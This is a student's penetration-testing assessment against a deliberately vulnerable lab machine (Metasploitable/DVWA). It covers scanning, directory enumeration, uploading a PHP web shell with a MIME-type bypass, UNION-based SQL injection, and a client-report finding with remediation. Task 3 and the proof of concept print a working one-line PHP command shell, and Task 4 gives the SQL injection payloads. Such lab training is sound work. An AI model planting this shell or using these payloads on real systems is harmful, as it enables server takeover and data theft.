# Month 1 Practical Assessment

Student: M Hamza Khan
Date: 15 Nov 2026
Target: 192.168.133.128

---

## Task 1 - Reconnaissance and Service Identification

Pinged the target first to confirm it's reachable - 0% packet loss.



Full TCP scan with `nmap -p- -T4 192.168.133.128` found 29 open ports including 21, 22, 23, 25, 80, 139, 445, 3306, 5432, 5900, 8180.



Version detection with `nmap -sV -p 21,22,80,139,445,3306`:
- 21/tcp: vsftpd 2.3.4
- 22/tcp: OpenSSH 4.7p1 Debian 8ubuntu1
- 80/tcp: Apache httpd 2.2.8 ((Ubuntu) DAV/2)
- 139/445: Samba smbd 3.X - 4.X
- 3306/tcp: MySQL 5.0.51a-3ubuntu5



OS fingerprint from `nmap -O` returned exactly:

> `No exact OS matches for host`



The tool couldn't lock a single version because it infers the OS by comparing TCP/IP stack responses against a database of known kernel profiles - many kernel builds respond identically at that layer, so nmap won't guess when the fingerprint doesn't match confidently enough.

Knowing the exact version matters because it's what you look up in NVD or CVE databases. An open port tells you a service exists; a version number tells you whether that service has known exploitable flaws - in this case vsftpd 2.3.4 points straight at CVE-2011-2523.

---

## Task 2 - Web Enumeration

Ran `whatweb -v http://192.168.133.128/dvwa` to identify the stack:
- Apache httpd 2.2.8 (Ubuntu)
- PHP 5.2.4-2ubuntu5.10
- X-Powered-By: PHP/5.2.4



Directory brute force command:
`gobuster dir -u http://192.168.133.128/dvwa -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,old`

Wordlist: `/usr/share/wordlists/dirb/common.txt`
Extensions added: php, txt, bak, old



Found these paths - none of them are linked from the index page:
- /config/
- /docs/
- /hackable/
- /phpinfo.php
- /robots.txt
- /setup.php
- /vulnerabilities/

The finding a defender should care about most is `/phpinfo.php`. It exposes the full PHP configuration, absolute file paths and loaded extensions - everything an attacker needs to plan the next step, and none of it should be reachable on a production server.

---

## Task 3 - File Upload to RCE

Contents of the shell I uploaded:

`<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>`



At Low, no validation at all. Uploaded the file directly - the app returned the success message naming the storage path:



Then ran `?cmd=id`, `?cmd=whoami` and `?cmd=hostname` in the browser:

`uid=33(www-data) gid=33(www-data) groups=33(www-data)` / `www-data` / `metasploitable`



The commands ran as `www-data`. That's the Apache service account, not root - it can read the application's own files including config files that hold MySQL credentials, but it cannot modify system files or read /root.

At Medium, the app checks the file's MIME type as reported by the browser. Intercepted the upload in Burp Suite, changed `Content-Type: application/x-php` to `Content-Type: image/jpeg`, forwarded:



Upload accepted - the app again returned the success message:



`?cmd=id` still worked, same output `uid=33(www-data)`:



---

## Task 4 - SQL Injection

Injection proof - entering `1'` in the id field broke the query and the app leaked a SQL error:



Entering `1` returned normal output, confirming the query runs fine without injection:



Payload `1' UNION SELECT 1, @@version #` returned the database version `5.0.51a-3ubuntu5`:



The injection works because the application concatenates user input directly into the query string (`SELECT ... WHERE id = '$id'`). The single quote closes the string literal, and everything typed after it becomes part of the SQL statement - so my UNION SELECT ran as a second query alongside the original.

Method: manual payloads, not sqlmap.

---

## Task 5 - Client Report Finding

### Title
Unrestricted File Upload Leading to Remote Code Execution (DVWA file upload module)

### Severity
Critical - CVSS 9.8, vector `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

No authentication is required beyond a standard login, no user interaction needed, and the impact is full across confidentiality, integrity and availability.

### Affected Asset
`http://192.168.133.128/dvwa/vulnerabilities/upload/` - the `uploaded` file parameter

### Identifiers
- CWE-434 - Unrestricted Upload of File with Dangerous Type
- No CVE applies. DVWA is an intentionally vulnerable training application, not a shipped product with published vulnerabilities.

### Description
The file upload module accepts user-supplied files without validating their content, and stores them in `/hackable/uploads/` where the web server executes PHP. Any authenticated user can upload a PHP file and run operating system commands as the web server account. At Medium the app checks the MIME type, but that value is supplied by the client - intercept the request with a proxy, change the header, and the check is bypassed.

### Proof of Concept
1. Uploaded `<?php if(isset($_GET['cmd'])){ system($_GET['cmd']); } ?>` at Low. (task3_shellphp.png)
2. Requested `?cmd=id` and got `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. (task3_low.png)
3. Set security to Medium. Intercepted the upload with Burp Suite. Changed `Content-Type: application/x-php` to `image/jpeg`. (task3_burp.png)
4. Upload accepted. `?cmd=id` returned the same `uid=33(www-data)` output. (task3_medium.png)

### Impact
Anyone with a login can run commands on the server as `www-data`. That account can read the application configuration files, which contain the MySQL credentials - and MySQL is exposed on port 3306. From there an attacker can read or modify every record in the application's database, including user accounts and any stored customer data. Overstating what the shell gives: it's not root, but it's full access to the application's data and that's enough to be a serious breach.

### Remediation
1. Deny execution in the upload directory. Remove the PHP handler from `/hackable/uploads/` so no file stored there can run as code. This is the control that stops every bypass, not just the MIME bypass.
2. Validate the file server-side by inspecting its magic bytes and decoding the image, rather than trusting the `Content-Type` header sent by the browser.
3. Store uploads outside the web root and serve them through an endpoint that sets `Content-Disposition: attachment` so browsers download them rather than render them.

### References
1. OWASP - Unrestricted File Upload: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. CWE-434: https://cwe.mitre.org/data/definitions/434.html
